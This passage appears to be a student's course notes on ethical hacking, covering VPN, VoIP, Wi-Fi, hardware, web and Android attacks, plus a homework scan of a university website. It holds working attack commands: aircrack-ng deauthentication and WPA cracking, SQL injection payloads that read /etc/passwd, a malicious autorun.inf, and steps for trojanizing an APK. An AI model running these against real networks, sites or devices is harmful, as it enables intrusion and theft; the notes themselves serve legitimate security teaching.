             - Low Hanging Fruit: default user IDs and passwords
             - Single Authentication (just password), Unlimited Attempt
             - Single Authentication (just password), Limited Attempts
             - Dual Authentication (username and password), Unlimited Attempts
             - Dual Authentication (username and password), Limited Attempts
- PBX (private branch exchange) hacking: telephone infrastructure exchange
  - Use dial-up connections, same methods as above
  - If needed page `1003` of the book
- Voicemail hacking: if needed page `1011` of the book
- Virtual Private Network (VPN) hacking
  - Replace of dial-up
  - Authentication and Tunnel Establishment in IPSec VPNs
    - IPSec employs the Internet Key Exchange (IKE)
      - Phases
        1. Authenticate the two communicating parties with each other and then set up a secure channel for IKE Phase 2. This can be done in one or two ways:
           1. Main mode: three separate two-way handshakes (a total of six messages), Main mode authenticates both parties to each other. This process first establishes a secure channel in which authentication information is exchanged securely between the two parties
           2. Aggressive mode: three messages, faster, less secure. Aggressive mode does not provide a secure channel to protect authentication information, which ultimately exposes it to eavesdropping attacks
        2. Establish the IPSec tunnel, which it does with the help of IKE Phase 1
    - Attacks
      - Using google
        - Check for `filetype:pcf` with the company name on google (`pcf` is like a Cisco VPN client config file)
      - Probing VPN servers: `Nmap`
        - Usually IPsec port is `500` UDP   
  - Citrix VPN solution hacking
    - "Remote desktop" over transparent VPN
    - This environment is "jailed", you have access only to specific applications
    - Applications exploitable to gain shells
      - Help menus in application could lead to `cmd` execution
      - Microsoft Office
        - Help
        - Saving (see files, also `cmd` and execute)
        - VBA (visual basic)
      - Internet explorer
      - ...
- Voice Over IP (VoIP) attacks;
  - Protocols
    - `H.323`: older, just signaling
    - `SIP`: newer, adds functions to signaling
    - Real-time Transport Protocol (`RTP`): transports voice traffic
  - SIP scanning
    - Tools: `SiVuS, SIPVicious`
    - Many SIP phones rely on TFTP serve to retrieve configuration settings (may contain user/pass)
      - Locate TFTP using `Nmap`
      - Bruteforce the configuration file's names using `TFTP Bruteforce`
  - SIP enumeration
    - Tools: `SIPVicious, SIPScan, Sipsak`
    - SIP is a human readable protocol
    - User enumeration could be done measuring the response time of requests
    - In case of CISCO platforms a directory service could be present, search for it
  - Interception
    1. Intercept the signaling protocol and RTP stream
       - Sniff traffic (`tcpdump, wireshark`), if it isn't enough do ARP spoofing (`dsniff, arp-sk`)
    2. Identify the codec and convert it to a popular file type using `vomit, scapy`
    - Tools
      - All in one: `UCSniff` (GUI)
      - Offline analysis: `SIPdump, SIPcrack` 
  - Denial of service
    - Can be executed on a single telephone or an entire infrastructure
    - Methods
      - Send a lot of `SIP_INVITE` faking a lot of calls using `inviteflood`
      - Flood the phone with unwanted traffic

### Wireless hacking

- Main tools
  - Software: `aircrack-ng`
  - Hardware: good antenna
- Base wireless protocol: `IEEE 802.11`
- Frequencies and channels
  - ISM (indistrial, scientific, medical)
    - Unlicensed band
    - Very crowded
  - Licensed
    - `2.4 GHz`: `802.11b/g/n`, channels `1-14`, non-overlapping channels `1, 6, 11`
    - `5 GHz`: `802.11a/n`, channels `36-165`, all non-overlapping
- Session estabilishment
  - Services types
    - Infrastructure (we will analyze those)
      - Uses an access point
      - Most used
    - Ad hoc
      - Devices connected peer-to-peer
      - Less used
  - How it works
    1. Client sends a probe request for the SSID (service set identifier) it is looking for
    2. It repeats the request on every channel looking for a probe response
    3. After the response the authentication request is sent
- Authentication
  - Open authentication: the AP accepts any connection
  - Shared-key authentication: WEP, no more used
  - WPA authentication method: doesn't intervene at this level, it kicks in later
- Association
  1. Client sends association request
  2. AP sends association response
  - When the association is completed the AP keeps track of the client but the client isn't authorized
- Security mechanisms
  - MAC filtering: it's like whitelisting based on MAC addresses
  - Hide network: omit SSID from beacons (beacons = initial packets)
    - This is useful to avoid AP impersonation attacks (rogue APs)
  - Responding to broadcast probe request: if a client asks for SSIDs some APs could not responde
- Strong authentication: WPA (wifi protected access), `802.11i`
  - Versions
    - Basic version (WPA): TKIP (temporal key integrity protocol)
    - Advanced version (WPA2, default): TKIP + AES (advanced encryption standard)
  - Families
    - Personal (WPA-PSK, WPA with pre-shared-key): one password that is used by all users
    - Enterprise: when a user tries to connect to an AP he needs to provide enterprise login credentials (different for each user) that will be validated by the RADIUS server
      - Integrated with SSO
      - Before authentication the client is connected with the AP (level 2)
      - Encryption keys are transparent to the user
      - Protocol: EAP (extensible authentication protocol)
        - EAP-TTLS
        - PEAP
        - EAP-FAST
- Four-way handshake (WPA) gives:
  - Pairwise transient key (PTK): used for unicast communcation between client and AP
  - Group temporal key (GTK): multicast and broadcast communcation
- Encryption options (WPA-PSK)
  - Wired Equivalent Privacy (WEP): not have a "real" required authentication phase, every participantin the network knows the actual encryption key
  - TKIP: evolution of WEP, used in WPA
  - AES-CCMP (Advanced Encryption Standard - CounterMode with Cipher Block Chaining Message Authentication Code Protocol): the one used in WPA2
- Equipment
  - Attacker require the full control of the wireless interface
  - Band: `2.4 and 2.5 GHz`
  - Sould support external antennas (to amplify the signal and the range)
  - Best network cards
    - ALFA
    - WiFi Pineapple
  - Antennas
    - Types (direction)
      - Omnidirectional: send and receive in all direction
      - Directional: focus waves in one direciton
        - Effective in long rage
      - Multidirectional: multiple directional antennas (2 or 4 ways usually)
    - Types (dimension/shape)
      - Patch: like a square
      - Dish: like a "parabola" (in italian), very long range
  - GPS: works during war-driving to create a map of access points
- Discovery and monitoring
  - Finding wireless networks
    - Discovery types
      - Active discovery
        - Send out broadcast probe requests and record response
        - Very noisy
        - Misses APs that are configured to ingora broadcast probe requests
      - Passive discovery (most used)
        - Listen on every channel and record every AP seen
        - Undetectable
        - `airodump-ng`: useful to discover networks
          - `airmon-ng start <wireless-dev>`: start monitor mode
          - `airodump-ng <wireless-dev>`: start dumping wireless signals
    - Methods
      - War-driving
        - Use a car and map/attack wireless APs in the city, smartphone is a good tool to do this
        - Nowadays drones are used
        - Google was doing this!
        - Wigle (https://wigle.net/): map of access points
- Sniffing wireless traffic
  - Tool: wireshark
  - Wireless card must be switched to monitor mode
- Denial of service attacks
  - Deauthentication attack
    - Part of the standard
    - Based on deauthentication packets: spoof deauthentication frames of clients and send them to the AP (or vice-versa), this will prevent client spoofed from connecting
    - Tool: `aireplay-ng`
      - Set adapter to monitor mode
      - `aireplay-ng --deauth 2 -a 00:11:92:B0:2F:3B -c 00:23:15:2E:2C:50 mon0`
        - `a`: AP BSSID
        - `c`: client
    - An attacker can use the de-authentication attack toreveal the SSID of a "hidden" wireless network by observing the client's probe requests as it reconnect
    - Change MAC address (could be useful): [macchanger](https://github.com/alobbs/macchanger) 
- Encryption attacks
  - WEP
    - Algorithm and information
      - When you send data on a wireless network protected by WEP, the encryption mechanism requires the WEP key and something called an Initialization Vector (IV)
      - The IV is pseudo-randomly generated for each frame and is added to the end of the 802.11 header of that frame
      - The IV and WEP key are used to create something called a keystream, which is what is actually used to turn the plaintext data into cipher text (via an XOR process)
      - To decrypt the data, the receiving side uses the WEP key it has (which should be the same one you have), pulls out the IV from the frame it received, and then uses its WEP key and the IV to generate its own keystream
      - This keystream is then used on the cipher text to create the plain text
      - To ensure that the decrypted data is valid, a checksum is verified before the data is further processed
      - At 24 bits, this IV is a fairly short value, which can result in duplicate IVs on a network. When a duplicateis identified, the cipher text of two frames can be compared and used to guess the keystream that created the cipher text
      - The keystream can also be identified by collecting a large number of frames of a certain guessed type
      - Because some frames vary very little you can guess the content of the frame; the more frames you collect, the more statistics you have to use to figure out the plaintext, which, combined with the cipher text in the initial frame, will result in identifying the keystream
      - With a valid keystream, an attacker can decrypt any frames encrypted with the same IV and inject newframes
      - There are also some relationships between the keystream and the actual WEP key, meaning if an attacker can guess enough of the keystream, the key can actually be deduced
      - So cracking WEP relies on gathering a large amount of data
    - Passive attack
      - How to
        - `airodump-ng --channel 1 --write wepdata mon0`: sniff packets
          - Channel: cheannel of the AP
          - Write: file where the dump will be saved
        - `aircrack-ng wepdata`: start cracking
    - Active attack: ARP Replay with Fake Authentication
      - Explanation 
        - Because WEP does not have any replay detection, an attacker can capture any valid encrypted traffic on a wireless network, resend it, and the receiving side will process it as a new frame
        - The ARP replay attack inspects wireless traffic to identify potential broadcast ARP frames based on their destination (`FF:FF:FF:FF:FF:FF`) and size (length of `86` or `68` bytes), changes the addressing information, and then replays them multiple times to the AP
        - When the AP sees the data, it decrypts it; processes the ARP frame, which tells the AP to broadcast it out all interfaces; encrypts the broadcast ARP frame with a new IV; and sends it out
        - This process is repeated quickly with the initial ARP frame and then compounded with every additional new frame the AP generates
        - The attack is aggressive but results in the AP producing tens of thousands of fresh data frames and IVs over the span of only a few minutes
        - The ARP requests that are sent to the AP must originate from a valid wireless client. Therefore, this attack requires the attacker to spoof the valid client's MAC address 
      - How to
        - `airodump-ng`: capture traffic
        - `aireplay-ng`: run fake auth and also ARP replay attack
        - `aircrack-ng`: crack using the traffic captured
- Authentication attacks
  - WPA PSK
    - If pre-shared key is weak this can be cracked
    - How to
      - Obtaining the Four-Way Handshake: you can wait around to sniff the handshake passively, or kick a client off with the de-authentication attack just so you can sniff the handshake when the client reconnects
        - `airodump-ng --channel <ap-channel> --bssid <bssid-of-ap> --write <outfile> <listening-interface>`
      - Then just crack the password: `aircrack-ng -w <wordlist> <pcap>`
        - Alternative cracking using GPU: https://github.com/JPaulMora/Pyrit
  - WPA Enterprise
    - Identifying EAP Types: capture four way handshake and analyze using wireshark
    - Types
      - LEAP: weak as WEP
        - Takes an MSCHAPv2 challenge and response and transmits them in the clear over the wireless network so an attacker can observe a challenge and also the response so can perform an offline brute-force attack
        - Tool: `asleap` (https://github.com/joswr1ght/asleap)
          - `asleap -r <pcap> -w <wordlist>`
      - EAP-TTLS and PEAP
        - Both EAP-TTLS and PEAP establish a TLS tunnel between the unauthenticated wireless client and a wired-side RADIUS server
        - A number of different options are available for inner authentication protocols; everything from MSCHAPv2 to EAP-GTC (one-time passwords) is available
        - Because there is an implied level of security within this tunnel due to the security provided by TLS, inner authentication protocols are sometimes cleartext
        - How to
          - Tapping into the tunnel is currently out of the question
          - Use AP impersonation and man-in-the-middle attacks
            - Misconfigured clients will not check for the identity of the radius server
            - Tool: `FreeRADIUS-WPE` (https://tools.kali.org/wireless-attacks/freeradius-wpe)
              - Accept all connections and print information to a log
            - Best tool: `EAPhammer` (https://github.com/s0lst1c3/eaphammer)

### Hardware hacking

- Lockpicking
  - Basic lock functioning

    

    - These locks are used to protect racks, computer rooms, employee rooms...
  - Lock bumping
    - Bumping key

      

    - How to
      1. Put bump key inside
      2. Shock the key and contemporarily just try to open the door
      - Very fast
      - No evidence
      - Doesn't damage the lock if done not frequently
    - Countermeasures
      - Don't rely only on locks, use 2FA
  - General lockpicking: http://thekazushi.com/wp-content/uploads/2014/09/The-MIT-Lockpicking.pdf
- Cloning access cards
  - Types
    - Magnetic stripe
      - Contains 3 tracks of data
      - No encryption
      - There exist reader/writer that cost not much, more or less 30 euros
      - There are also softwares that work with cards reader/writers
      - If a card is modified also its checksum must be modified
    - RFID (proximity)
      - Use radio signals (two different spectrums: `135 kHz` or `13.56 MHz`)
      - Data usually unencrypted
      - Reader emits waves that power the card

        

      - Most common card: `MiFare`
        - Mifare classic cryptography

          

          - From the tag nonce, the reader nonce and the message generated the secret key can be gathered
          - No more used in new solutions, now the authentication code changes at every access
      - Basic tools
        - RFID reader/writer can be bough for not so much
      - Advanced tools
        - Proxmark3: decode different RFID protocols
        - Universal software waves radio peripheral (USRP): intercept/inject traffic
      - Nowadays: difficult to apply those attacks, now there si crypto and challenge response mechanisms
- Hacking devices
  - Bypassing ATA Password Security (hard drives passwords, not disk encryption)
    - Types of hard drives (works for each one)
      - PATA (IDE)
      - SATA
    - How to: hot-swap attack
      1. Boot a computer with an unlocked drive
      2. Enter bios and prepare to set a BIOS password
      3. Replace the unlocked drive with the locked one
      4. Set the hard disk password finishing BIOS procedure
      5. The password of the locked disk will be the one just set
      6. (If a password is not desired the password could also be removed instead of being set to another)
    - Countermeasures: use full-disk encryption
  - USB U3
    - Normal USB but can also store software (uses autorun file in Windows)
    - Exploit `autorun.inf`
      ```
      [autorun]
      open=<malicious-exe>
      icon=autorun.ico
      ```
    - Countermeasures: disable autorun
- Default configurations
  - Default passwords (especially routers/IoT devices)
    - Websites saving default passwords
      - https://default-password.info/
      - https://datarecovery.com/rd/default-passwords/
      - http://www.phenoelit.org/dpl/dpl.html
  - Bluetooth
    - Default pins/enabled devices
    - Ubertooth: allows for the sniffing and playback of Bluetooth frames across all 80 bluetooth channels in the 2.4 GHz ISM band
- Hardware reverse engineering: https://gitlab.com/myasnik/hardware-hacking-cheatsheet
  - Mapping the device
    - Identify integrated circuit chips: find serial number to search data sheet
    - Identify external interfaces: HDMI, USB, JTAG, UART...
    - Use multimeter to perform those studies
  - Components
    - Microcontrollers: (MCU) small CPU or system on a single IC, containing a processor, a tiny amount of memory, and some non volatile memory, usually in the form of Flash
    - Electrically Erasable Programmable Read-Only Memory (EEPROM): type of non volatile memory used in electronics to store small amounts of data, oftentimes system firmware code for a microcontroller or CPU, that must be saved when thepower is removed
    - FPGA: field-programmable gate array with an extremely flexible chip that can be used to implement a wide variety of logical operations and can be reconfigured a countless number of times
  - Identify important pins: UART and JTAG pins
  - Sniffing bus data
    - Some bus are encrypted (ex: HDMI)
  - Use a logic analyzer
  - Sniff wireless interface
    - Identify FCC ID of the device: every device that emits radio signals has an FCC ID
    - By knowing the radio frequencies the device operates on, along with the type of modulation the device uses, symbol decoding, which is the lowest level of wireless decoding, should be possible
      - Useful tool: software defined radio (GNU Radio)
  - Firmware reversing
    - Tools: Ghidra/Cutter/IDA pro/strings
    - Ports: UART/JTAG
      - JTAG: not standard

### Web application hacking

- Focus on web application rather than the underlying web server software
- Useful tools
  - [Google dorks](http://exploit-db.com/google-dorks/): using advanced search, you can find lots of useful information
  - Web crawling: downloading the entire (public) content of the website and looking for sensitive data
    - Easier tool: `wget` recursive
  - Web application assessment: analysis of application design
    - Main foucs
      - Authentication
      - Session management
      - Database interaction
      - Input validation
      - Application logic
    - Tools
      - Browser plugins (browser developer tools, something that acts as burp, cookie manager, ...)
      - Tool suites: proxy that interpose between client and server (analyze requests/responses)
        - Fiddler
        - WebScarab
        - Burp Suite
- Common web app vulnerabilities
  - Typical weak passwords, misconfiguration (see dorks), ...
  - Session Hijacking
  - Cross site scripting
  - Cross site request forgery
  - SQL injections
  - ...
- HTTP review
  - Stateless protocol: each command is independent
  - Uses staus codes to indicate result of requests
  - Infrastructure

    

  - Request flow example

    

  - URl structure

    

  - List of "non-allowed" characters: `: / ? # [ ] @ ! $ & ’ ( ) * + , ; =`
    - URLs can only be sent over the Internet using the ASCII character-set (printable)
    - Not-allowed (unsafe) ASCII characters are ENCODED with a `%` followed by two hexadecimal digits

    

  - Request structure
    1. Request line (e.g., `GET /index.html HTTP/1.1`)

       

       - `GET` to fetch a resource
       - `HEAD` similar to `GET`, but the server replies with headers only
       - `POST` includes data in the body (data to be posted in a forum, data coming from another page form, data to be inserted in a database...)
       - `HTTP/1.1` provides also `OPTIONS, PUT, DELETE, TRACE, CONNECT`
    2. Header (`HTTP/1.1` MUST contain the Host field – host and port number of the requested resource)
       - `Host`: the hostname that appears in the full URL accessed
       - `Authorization`: authentication credentials (no more used)
       - `If-Modified-Since`: server answer with the resource only if it has been modified after the specified date
       - `Referer`: page from which the request has been generated
       - `User-Agent`: agent used to perform the request
       - Entity headers: contain meta-information about the request body
         - `Content-Length`: length of the request payload
         - `Content-Type`: type of the payload (e.g., `application/x-www-form-urlencoded`)
    3. Empty line
    4. Message body (optional)
    - NB: request line and header are terminated by a CRLF (`\r\n`), empty line -> CRLF, usually implementations are flexible
  - Answer structure
    1. Status-line (e.g., `HTTP/1.1 200 OK`)
       1. Protocol version (e.g., `HTTP/1.1`)
       2. Status code (result of the operation, e.g., `200`)

          

       3. Text code associated to the status code (e.g., `OK`)
    2. Header (optional) (e.g., `Server: Apache/2.2.3`)
       - `Server`: general banner on the web server, can include modules and OS
       - `Location`: used with redirect, indicates the new location of the resource
       - `Last-Modified, Expires, Pragma`: for the caching mechanism, describe info about the modified status
       - `Content-Length, Content-Type`: payload length (in bytes) and payload type
    3. Empty line (CRLF)
    4. Body of the message (optional, depending on the request)
    - NB: status-line and header are terminated by CRLF
  - Parameter passing
    - GET
      1. Form
         ```html
         <form action="submit.php" method="get">
            <input type="text" name="var1" value="a" />
            <input type="hidden" name="var2" value="b" />
            <input type="submit" value="send" />
         </form>
         ```
      2. Parameters embedded in the URL: `<a href="submit.php?var1=a&var2=b">link</a>`
         - Corresponding HTTP request
           ```
           GET /submit.php?var1=a&var2=b HTTP/1.1
           Host: www.example.com
           ...
           ```
    - POST
      ```html
      <form action="submit.php" method="post">
        <input type="text" name="var1" />
        <input type="text" name="var2" />
        <input type="submit" value="send" />
      </form>
      ```
      - Corresponding request
        ```
        POST /submit.php HTTP/1.1
        Host: localhost
        ...
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 13
        var1=a&var2=b
        ```
    - POST + GET
      ```html
      <form action="submit.php?var3=c&var4=d"method="post">
        <input type="text" name="var1" />
        <input type="text" name="var2" />
        <input type="submit" value="send" />
      </form>
      ```
      - Corresponding request
        ```
        POST /test.php?var3=c&var4=d HTTP/1.1
        Host: localhost
        ...
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 13
        var1=a&var2=b
        ```
  - Dynamic contents to HTTP requests: servers and clients use scripting languages to create dynamic contents for web users
- Burp suite
  - Configuring burp proxy: https://portswigger.net/burp/documentation/desktop/getting-started/proxy-setup/browser
  - General tutorial: https://portswigger.net/burp/pro/video-tutorials
- HTTP security measures
  - Sessions: solve the stateless problem
    - Implemented by web applications themselves
    - Embedding
      - Payload HTTP: `<INPUT TYPE="hidden" NAME="sessionid" VALUE="7456">`
      - URL: `http://www.example.com/page.php?sessionid=74563`
      - Header HTTP (e.g., `Cookie`)
        ```
        GET /page.php HTTP/1.1
        Host: www.example.com
        ...
        Cookie: sessionid=7456
        ...
        ```
    - Cookies
      - Data created by the server and memorized by the client
      - Transmitted between client and server using HTTP header

      

      

    - Session implementation
      - Data inserted manually by the coder of the web application (obsolete and unsecure)
      - Implemented in the programming language of the web application
        - Session cookie (most used technique)
          - How
            - Session data stored on the server
            - The server sends a session id to the client through a cookie
            - For each request, the client sends back the id to the server (e.g., `Cookie: PHPSESSID=da1dd139f08c50b4b1825f3b5da2b6fe`)
            - The server uses this id to retrieve information
    - Security
      - Session hijacking

        

      - Session prediction: no more used, cookies could have been predicted
      - Session fixation

        

      - Insecure Direct Object Reference (IDOR)
        - Happen when an application provides direct access to objects based on user-supplied input
        - The user can directly access to information not intended to be accessible
        - Bypass authorization check leveraging session cookies to access resources in the system directly
        - Example: craft parameter `http://foo.bar/somepage?invoice=12345` and get resource requested (even if you don't have access to)
      - Content isolation
        - Content coming from website A can only read and modify content coming from A, but cannot access content coming from website B
        - This means that a malicious website cannot run scripts that access data and functionalities of other websites visited by the user
        - Example
          - You are logged into Facebook and visit a malicious website in another browser tab
          - What prevents that website to perform any action with Facebook as you? The Same Origin Policy
        - SOP: any 2 scripts executed in 2 given execution contexts can access their DOMs iff the protocol, domain name and port of their host documents are the same
        - Implications of SOP
          - A website CANNOT read or modify cookies or other DOM elemets of other websites
          - Actions such as "modify a page/app content of another window" should always require a security check
          - A website can request a resource from another website, but CANNOT process the received data
          - Actions such as "follow a link" should always be allowed
        - Limits and solutions
          - SOP simplicity is its limit too
          - Solutions
            - `document.domain`: both scripts can set their top level domain as their domain control (e.g., http://google.com)
              - Issue: communication among other (sub)domain is now possible (e.g., http://mobile.google.com)
            - `postMessage(...)`: more secure version, introduced by HTML5
              - window 1 sends message to window 2, making cross-window access possible
- Client side attacks
  - Goals
    - Steal cookies
    - Force user to make requests
    - .. Anything you can do with HTML + JavaScript
  - Types
    - Cross-Site Scripting (XSS)
      - General explanation
        - The original web page is modified and HTML/JavaScript code is injected into the page
        - The client's browser executes any code and renders any HTML present on the (vulnerable) page
      - Types
        - Reflected: the injection happens in a parameter used by the page to dinamically display information to the user

          

        - Stored: the injection is stored in a page of the web application (tipically the DB) and then displayed to users accessing such a page

          

        - DOM-based: the injection happens in a parameter used by a script running within the page itself
    - Cross-Site Request Forgery (CSRF)
      - Types (both reflected and stored)
        - On-site
        - Cross-site
      - Goal: have a victim to execute a number of actions using her credentials
      - Explanation
        
        

      - Examples
        - GET
          1. The victim visits http://bank.com and performs a succesful authentication
          2. The victim opens another browser tab or window and visits a malicious website
          3. The malicious webpage contains something like: `` 
        - POST: same as GET but parameters are in the body
      - Countermeasures
        - CSRF tokens
          - Every state changing operation requires a unique token
          - Tokens must be random large numbers
          - Tokens are added as hidden field in user pages
        - CSRF tokens are invalidated by XSS vulnerabilities
        - BREACH SSL attack: use multiple requests to guess the token
- Server side attacks
  - SQL injection
    - SQL: standard language for manipulation of databases

      

      - SQL query examples
        - `SELECT <cols> FROM <tables> WHERE <conditions>`
        - `INSERT INTO <table> VALUES <values>`
        - ... see online
    - SQLi: is possible to modify the syntax of the query by altering the application input
      - Caused mostly by missing input validation
      - Example

        

      - Entry points
        - GET/POST parameters
        - HTTP headers
        - Cookies
        - The database itself: input stored in database, later used to build another query (second order inject)
      - Step by step

        

      - Ending the query: instead of ending it, just comment the end (`#`, `--`, `/*..*/`)
      - UNION query
        - Query: `$q = "SELECT id, name, price, description FROM products WHERE category =" .$GET['cat'];`
        - Injected code: `$cat = "1 UNION SELECT 1, user, 1, pass FROM users";`
        - Number and type of the columns returned by the two SELECT must match
      - Second order inject
        - Username registered: `admin'#`
        - Later fetch (password update): `$q = "UPDATE users SET pass = '" .$_POST['newPass']."' WHERE user = '".$row['user']."'"`
        - Result: `$q = "UPDATE users SET pass = 'password' WHERE user = 'admin'#'";`
      - Piggy backing: executing more queries concatenating them using the `;`
      - Information schema: gather information about the database
        - Vulnerable query: `$q = "SELECT username FROM users WHERE user id = $id"`
        1. Get table name: `$id = "-1 UNION SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema != 'mysql' AND table_schema != 'information_schema'";`
        2. Get columns name: `$id = "-1 UNION SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'users'"`
      - Blind SQLi: system do not allow you to see output in the form of error messages or extracted database fields whilst conductiong SQLi
        - `SLEEP` or `BENCHMARK`: wait some time if the query returns something/is correct
        - `IF`
        - `SUBSTRING`

        

        

      - Write/read a file from disk
        - Vulnerable query: `$q = "SELECT username FROM users WHERE user id = $id"`
        - Read: `$id = "-1 UNION SELECT load file('/etc/passwd')";`
        - Write: `$id = "-1 UNION SELECT 'hi' into outfile '/tmp/hi'";`
        - Notes
          - File operations fail if FILE permission is not granted
          - Load file returns NULL upon failure

### Mobile hacking

- Hacking Android
  - Android fundamentals
    - Android is based on the Linux kernel but a lot of Android components are closed source
    - Problem: fragmentation
      - Many users use out of date OS versions because developers are not updating their specific "fork" of Android
      - This leads to well-known vulnerabilities
    - Architecture

      

      - If a library has a vulnerability then all the upper applications are vulnerable
      - Once anapplication is developed in Java, it is transformed to dex (Dalvik Executable) files using the dx tool included in the Android SDK so it’s compatible with the Dalvik VM
      - Dalvik VM is open source
      - Each app runs in its sandbox, apps can not interact with eachother (isolation); this mechanism is implemented at kernel level
      - Android is ARM based
    - File system security
      - Memory is encrypted
      - System partition (kernel/low level libraries...) are read-only unless user is root
      - Files created by an app can not be modified by a different app
    - Memory security
      - ASLR
      - NX bit
    - Protected APIs: user must agree to grant an app permissions
    - Certificates: all apps must be signed with a certificate but this certificate could be self-signed
  - Tools
    - Android Software Development Kit (SDK): for every OS
      - Android emulator
      - Android debug bridge (ADB): cli tool to communicate with an emulator or a physical device
      - Dalvik Debug Monitor Server: debugging tool that connects to adb and is able to perform port-forwarding, take screen capturers of the device, obtain log information using logcat, send simulated location data, SMS, and phone calls to the device/emulator, and provide memory management information like thread and heap
  - Hacking
    - Rooting
      - Android stock gives the user an unprivileged account, to become root the user must root its device
      - Methods
        - Exploit a vulnerability in your own device to do privilege escalation and become root
        - Install a custom rom
      - Risks
        - Brick your phone, you need to buy another
        - Compromises security of the OS, opening ports to more malwares
        - Warranty is compromised
      - How to: visit https://www.xda-developers.com and https://forum.xda-developers.com/ or simply google it
      - What you can do with a rooted device
        - FUll control of the system
        - Install custom rom/mod current rom
        - Use different app markets
        - Tweak CPU
        - Install busybox: set of UNIX tools that allows you to execute useful commands like tar, dd, and wget, among others
        - Edit what sensors send to the system: GPS, accellerometers...
        - Have full access to devices like WiFi, Bluetooth...
        - Run binaries compiled for linux (ARM) kernel
        - ...
    - Trojan apps
      - Apps are more or less zip archives
      - In apps are stored
        - Manifest: XML file that defines essential information about the application to the Android system, for instance, software components (broadcast receivers, services,activities, and content providers), along with the permissions that the application requires to be executed in the device
        - Classes.dex: Dalvik executable where the compiled code resides
      - App entry points: apps may have more than one entry point
        - Broadcast receiver: enables applications toreceive "intents" (like interrupts) from the system. When aspecific event occurs on the system (SMS received, for example), a message is broadcast to all the apps running on the system. If this component is defined in the manifest, the application can capture it and execute some specific functionality when this event occurs. Also a priority can be defined for each receiver to obtain the intent before the default receiver for purposes of intercepting it and performing actions such as calls and SMS interception
      - Services: enables applications to execute code in the background, which means no graphical interface is shown to the user
      - The way that most Android malware works is to take a legitimate application, disassemble the dex code, and decode the manifest. Then you include the malicious code, assemble the dex, encode the manifest, and sign the final apk file
        - Tools
          - `apktool`: extract and compress app
          - `Jar signer`: sign apks
        - How to
          1. Extract apk: `apktool d <apkfile> <outfolder>`
          2. Edit `smali` files
          3. Build apk: `apktool b` (inside the out folder)
          4. Generate a private key with a corresponding digital certificate

             
          
          5. Sign apk

             

    - Exploit known vulnerabilities or find some by yourself
    - Remote Shell with Zero Permissions: exploit basic android functions to gain higher permissions to use through a remote shell 
    - Data Stealing Vulnerability: steal sd card files through the browser
    - Exploiting Capability Leak
      - Explicit capability leaks: allow an app to successfully access certain permissions by exploiting some publicly accessible interfaces or services without actually requesting these permissions by itself
      - Implicit capability leaks: allow the same, but instead of exploiting some public interfaces or services, permit an app  to  acquire  or  “inherit”  permissions  from  another  app with the same signing key (presumably by the same author).
    - URL-sourced Malware: install app through web browser
    - Carrier IQ: more or less spyware installed by the phone manifacturer
  - Android as a Portable Hacking Platform
    - Network sniffer (Shark for Root)
    - Network Spoofer: performs an ARP spoofing attack to redirect hosts in a Wi-Fi network to another website
    - Connect Cat: connects to a host and sends network traffic (similar to Netcat)
    - Nmap for Android (unofficial version): Nmap for Android is a ported (and paid) graphical version of the popular Nmap tool used to discover hosts and services in a network
  - Defending Your Android
    - Keep your device physically secure
    - Lock your device
    - Avoid installing applications from unknown sources/developers
    - Install security software
    - Enable full internal storage encryption
    - Update to the latest Android version
- Hacking iOS
  - Apps (like in Android) are sandboxed
  - Jailbreaking: process of taking full control of an iOS-based device
    - Problem: device is more vulnerable as runs with high privileges
    - Techniques
      - Boot-based: push on the device a customized firmware during the boot process of the device
      - Remote: exploit OS vulnerabilities to take full control of the device and jailbreak it without the need of a computer (some website do this)
    - "App store" for jailbroken devices: Cydia
  - Hacking Other iPhones
    - Jailbreaking those devices if the attacker has physical access
    - Exploiting client side apps to gain information about the user (remember that the attacker can't escape the sandbox)
      - To break out of the sandbox kernel-level vulnerabilites must be exploited
    - MITM: through a malicious AP, redirect to jailbreakme and install and enable SSH and VNC to connect in a next moment
      - Possible just for HTTP traffic or if a TLS certificate is broken 
    - Jailbroken device could have default root password (`alpine`), remember iKEE attacks
    - Malicious apps: certain apps in the app store could be malicious (rare)

## Exercises

### Homework 1

1. Exercise 1
    1. Part 1
        - Mirror the website: `wget -r --no-check-certificate https://cybersecurity.uniroma1.it/`
            - Interesting files
                - `robots.txt`
                - https://cybersecurity.uniroma1.it/CHANGELOG.txt
                - https://cybersecurity.uniroma1.it/install.php
                - https://cybersecurity.uniroma1.it/INSTALL.mysql.txt
                - https://cybersecurity.uniroma1.it/INSTALL.txt
                - Similar resources...
        - Cat all files into one: `find . -type f -exec cat {} \; > allcat.txt`
        - Find all comments: `cat -v allcat.txt | grep '<!--.*-->'`
            - Found in comments
                ```html
                <p><strong>Students who are eligible to participate in the Restricted Exams Session can&nbsp;register by filling in the <a href="https://www.studiareinformatica.uniroma1.it/extraordinary-exam-session" target="_blank">on-line booking form</a>, within September 26th, 2020.&nbsp;</strong></p> --></p>
                ```
    2. Part 2
        - Gobuster directory search: `gobuster dir -u  http://cybersecurity.uniroma1.it/ -w ~/Downloads/directory-list-2.3-small.txt -o gubuster_res.txt`
            ```
            # gubuster_res.txt

            /search               (Status: 302) [Size: 0] [--> //cybersecurity.uniroma1.it/search/node]
            /home                 (Status: 200) [Size: 19361]
            /misc                 (Status: 301) [Size: 313] [--> http://cybersecurity/misc/]
            /themes               (Status: 301) [Size: 315] [--> http://cybersecurity/themes/]
            /0                    (Status: 200) [Size: 19355]
            /user                 (Status: 200) [Size: 13369]
            /modules              (Status: 301) [Size: 316] [--> http://cybersecurity/modules/]
            /contacts             (Status: 200) [Size: 15494]
            /overview             (Status: 200) [Size: 15495]
            /admin                (Status: 403) [Size: 12073]
            /scripts              (Status: 301) [Size: 316] [--> http://cybersecurity/scripts/]
            /node                 (Status: 200) [Size: 29769]
            /sites                (Status: 301) [Size: 314] [--> http://cybersecurity/sites/]
            /courses              (Status: 200) [Size: 22112]
            /includes             (Status: 301) [Size: 317] [--> http://cybersecurity/includes/]
            /profiles             (Status: 301) [Size: 317] [--> http://cybersecurity/profiles/]
            /README               (Status: 200) [Size: 5382]
            /statistics           (Status: 200) [Size: 13728]
            /seminars             (Status: 200) [Size: 18122]
            /robots               (Status: 200) [Size: 2189]
            /cryptography         (Status: 200) [Size: 13957]
            /INSTALL              (Status: 200) [Size: 17995]
            /LICENSE              (Status: 200) [Size: 18092]
            /admission            (Status: 200) [Size: 26312]
            /Template             (Status: 403) [Size: 296]
